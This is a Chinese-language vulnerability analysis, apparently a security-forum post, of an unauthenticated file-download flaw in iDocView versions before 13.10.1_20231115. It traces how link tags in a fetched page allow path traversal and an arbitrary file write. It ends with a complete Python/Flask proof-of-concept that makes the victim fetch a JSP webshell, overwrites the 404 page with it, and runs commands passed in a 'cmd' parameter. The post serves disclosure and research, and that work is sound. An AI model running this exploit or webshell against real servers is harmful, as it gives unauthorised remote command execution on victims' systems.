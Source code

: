 ![](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-bc20688be4c26afbeeb5ed389491b63a660386dc.png)

昨天注意到一个IDocView系统的漏洞被披露了，发现是几个月之前审计过的漏洞，这里和师傅们分享一下当时的漏洞分析记录。

影响范围
----

iDocView &lt; 13.10.1\_20231115

漏洞原理
----

漏洞原理大概就是使用未过滤的接口进行远程文件下载，会对传入的url进行下载，并且会解析url对应源码标签中的链接标签并且进行下载，而标签链接解析下载的过程中存在路径过滤缺陷导致任意文件上传。

过滤检查
----

IDocView通过Tomcat+Spring-Mvc布置在Windows中，请求接口过滤通过继承于org.springframework.web.servlet.handler.HandlerInterceptorAdapter的com.idocv.docview.interceptor.ViewInterceptor进行定义，

com.idocv.docview.interceptor.ViewInterceptor#preHandle 是任何请求都会调用的过滤函数，主要会对文件预览、文件上传、文件下载功能接口进行身份验证。

且com.idocv.docview.interceptor.ViewInterceptor#thdViewCheckSwitch=false 不会进行upload和download接口进行身份验证。

![](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-1b7cde22fa9f11fbe65f709d5eb52a3d5ad686f5.png)

漏洞入口
----

/html/2word对应的入口函数为com.idocv.docview.controller.HtmlController#toWord

![](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-a846c6f5159ecba7df2c96a3172ee310f3cc0b42.png)

函数大致流程如下：

1. 计算url的md5值作为子目录名
2. 判断子目录是否存在，不存在则根据url链接下载资源
3. 判断是否存在文件md5Url + ".docx"是否存在
4. 不存在则通过pandoc.exe生成md5Url + ".docx"文件
5. 返回md5Url + ".docx"文件

其中关键函数为下载资源的com.idocv.docview.util.GrabWebPageUtil#downloadHtml

![](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-f1b734d5817f5c50fdc200e66425f146f34aaf2f.png)

传入url到downloadHtml函数后首先是会对getWebPage进行文件下载

（函数较长所以分几个部分截图了）

首先是进行一些请求的header设置

![](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-62c8d1347a88595dff9bba54c49ea84e07fd9d31.png)

下面会下载url文件源码内容后进行一些格式解析处理后写入到url链接中指定的文件名中

![](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-780263af0ef72c4f64a781f9b64a8edd1b976ff8.png)

看到这里之前审计的时候发现有asp、aspx、php这些可能为webshell格式的过滤而没有过滤jsp后缀。传入第二个参数中的outputDir指定了目录，而这个目录并不能被我们直接通过url指定；同时下载的文件名在第三个参数指定为index.html，所以下载文件的位置并不能给我们指定。

![](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-08f9074547208b5655dbd1c58b875ef7a378b1f5.png)

问题并不是出在第一次执行的getWebPage

远程文件下载
------

com.idocv.docview.util.GrabWebPageUtil#getWebPage(java.net.URL, java.io.File, java.lang.String)

在第一次下载url内容的时候并不能进行利用，但是在下面再次调用了getWebPage函数

![](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-351f30bd584f6c112847841842404be5d48fca61.png)

这里的双参数和三参数的getWebPage是一样的，双参数将最后一个保存文件名进行指定，如果第三个参数未指定，则会根据url获得最后一个/之后的字符串作为文件名

```Java
public static void getWebPage(URL obj, File outputDir) {
   getWebPage(obj, outputDir, (String)null);
}
```

```Java
String path = obj.getPath();
String filename = path.substring(path.lastIndexOf(47) + 1);
if (filename.equals("/") || filename.equals("")) {
   filename = "default.html";
}

System.out.println(filename);
if (StringUtils.isNotBlank(fileName)) {
   filename = fileName;
}
```

而之后在这个For循环中的链接是源自于第一次从链接中下载的页面源码，并且从中解析出img、link、script中的指定加载的远程连接文件，且解析后的链接会加入到GrabUtility.*filesToGrab中。*

录入访问链接http://host:port/links.html返回的内容为：

```Java
<img src="https://host:port/1.png">
```

那么1.png图片就会下载于md5为名的子目录下：

![](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-3baa001ca9833453a9bdb251644a0c7c6319b981.png)

Poc构建
-----

到这里攻击流程其实就已经可以进行webshell文件上传了：

1. web服务器里面存放一个links.html文件写入带着目录穿越路径的url链接：
    
    ```Java
    <link href="http://127.0.0.1:5050/..\..\..\..\docview\\WEB-INF\\views\\404.jsp">
    ```
2. 访问`/docview/html/2word`传入url=<http://server-host/links.html>
3. 受害服务器下载links.html文件并且解析出link 标签的下载文件路径`..\..\..\..\docview\\WEB-INF\\views\\404.jsp`并且将文件名通过目录拼接的方式保存到本地
4. web服务器里面定义路由，当访问`..\..\..\..\docview\\WEB-INF\\views\\404.jsp`路径的时候，返回一个webshell文件
5. 最后访问一个任意IdocView不存在的路由就会加载覆盖后的404.jspwebshell文件

```Java
import random
import threading
import time
import requests
from flask import Flask, request

app = Flask(__name__)

raw_404_page="404 Page Text"
jsp_webshell = """
<!-- request with Parameter 'cmd'-->
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<%=output %>"""

@app.route('/<path:path>')
def serve_content(path):
    if "jsp" in request.url:
        return raw_404_page + jsp_webshell
    elif "links" in request.url:
        return  f"""<link href="http://127.0.0.1:5050/..\\..\\..\\..\\docview\\WEB-INF\\views\\404.jsp">"""
    else:
        return 'who are you???'

def exp(host):
    time.sleep(5)
    url = host + '/html/2word'
    r = requests.post(url,
                      data={
                          "url": f"http://127.0.0.1:5050/links.html_{random.Random().randint(0, 1000000)}"
                      })
    print(r.status_code)
    print(r.text)
    requests.get(host+"/xxx?cmd=calc")

if __name__ == '__main__':
    threading.Thread(target=exp,args=("http://192.168.92.1:8080/docview",)).start()
    app.run(port=5050,debug=True,host='0.0.0.0')
```

![](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-687945e158d353471e8a16424d6beff5fe3e7cfc.png)

这是执行命令前访问/xxx?cmd=whoami的结果

![](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-13621abcdd18891fc53c073e7391ab9bf4b1d0d8.png)

执行脚本后404页面变化执行命令输出回显

![](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-dc5637e07644b58b1d4e0090d72b4c15646b1d9c.png)